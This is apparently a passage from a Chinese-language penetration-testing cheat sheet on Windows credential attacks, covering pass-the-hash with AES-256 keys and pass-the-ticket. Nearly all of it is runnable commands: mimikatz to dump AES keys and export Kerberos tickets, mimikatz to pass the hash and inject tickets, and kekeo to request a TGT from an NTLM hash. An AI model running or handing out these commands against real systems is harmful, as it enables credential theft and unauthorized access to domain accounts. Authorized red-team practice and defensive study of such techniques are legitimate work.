 ### [](#%E4%BD%BF%E7%94%A8-aes-256-%E5%AF%86%E9%92%A5%E8%BF%9B%E8%A1%8C%E5%93%88%E5%B8%8C%E4%BC%A0%E9%80%92)使用 AES-256 密钥进行哈希传递

使用 mimikatz 抓取 AES-256 密钥

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>mimikatz "privilege::debug" "sekurlsa::ekeys"<br>``` |

pth攻击（目标机器必须安装 KB2871997）

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>mimikatz "privilege::debug" "sekurlsa::pth /user:administrator /domain:pentest.hacker /aes256:[aes256]"<br>``` |

## [](#%E7%A5%A8%E6%8D%AE%E4%BC%A0%E9%80%92)票据传递

### [](#%E4%BD%BF%E7%94%A8-mimikatz-%E8%BF%9B%E8%A1%8C%E7%A5%A8%E6%8D%AE%E4%BC%A0%E9%80%92)使用 mimikatz 进行票据传递

#### [](#%E5%AF%BC%E5%87%BA%E7%A5%A8%E6%8D%AE)导出票据

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>mimikatz "privilege::debug" "sekurlsa::tickets /exports"<br>``` |

#### [](#%E6%B3%A8%E5%85%A5%E7%A5%A8%E6%8D%AE)注入票据

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>mimikatz "kerberos::ptt" "C:\xxx.kirbi"<br>``` |

### [](#%E4%BD%BF%E7%94%A8-kekeo-%E8%BF%9B%E8%A1%8C%E7%A5%A8%E6%8D%AE%E4%BC%A0%E9%80%92)使用 kekeo 进行票据传递

#### [](#%E7%94%9F%E6%88%90%E7%A5%A8%E6%8D%AE%E6%96%87%E4%BB%B6)生成票据文件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>kekeo "tgt:ask /user:administrator /domain:pentest.hack /ntlm:[NTLM]"<br>``` |

#### [](#%E5%B0%86%E7%A5%A8%E6%8D%AE%E6%96%87%E4%BB%B6%E5%AF%BC%E5%85%A5%E5%86%85%E5%AD%98)将票据文件导入内存

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```cmd<br>kekeo "kerberos::ptt xxx.kirbi"<br>``` |
